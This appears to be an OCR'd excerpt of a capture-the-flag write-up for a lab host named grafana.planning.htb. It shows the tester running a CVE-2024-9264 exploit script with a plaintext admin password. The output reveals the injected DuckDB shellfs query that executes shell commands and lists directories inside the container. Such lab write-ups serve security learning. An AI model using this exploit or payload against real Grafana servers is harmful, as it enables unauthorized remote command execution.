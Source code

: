 ```
menu
misc
pam
pam-configs
perl5
pixmaps
polkit-1
publicsuffix
sensible-utils
tabset
terminfo
zoneinfo
zoneinfo-icu
zsh
```

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la ../../" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la ../../
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls -la ../../ >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 64
drwxr-xr-x 1 root root 4096 Apr 27  2024 .
drwxr-xr-x 1 root root 4096 Apr  4 10:23 ..
drwxr-xr-x 1 root root 4096 Sep  2 15:34 bin
drwxr-xr-x 2 root root 4096 Apr 18  2022 games
drwxr-xr-x 2 root root 4096 Apr 18  2022 include
drwxr-xr-x 1 root root 4096 May 14  2024 lib
drwxr-xr-x 2 root root 4096 Apr 27  2024 lib32
drwxr-xr-x 2 root root 4096 Apr 27  2024 lib64
drwxr-xr-x 4 root root 4096 Apr 27  2024 libexec
drwxr-xr-x 2 root root 4096 Apr 27  2024 libx32
drwxr-xr-x 1 root root 4096 Apr 27  2024 local
drwxr-xr-x 1 root root 4096 May 14  2024 sbin
drwxr-xr-x 1 root root 4096 May 14  2024 share
drwxr-xr-x 2 root root 4096 Apr 18  2022 src
```

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la ../../../" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la ../../../
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls -la ../../../ >/tmp/grafana_cmd_output 2>&1 
|'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 72
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Sep  2 04:01 dev
drwxr-xr-x   1 root root 4096 Sep  2 09:00 etc
drwxr-xr-x   1 root root 4096 Sep  2 09:00 home
```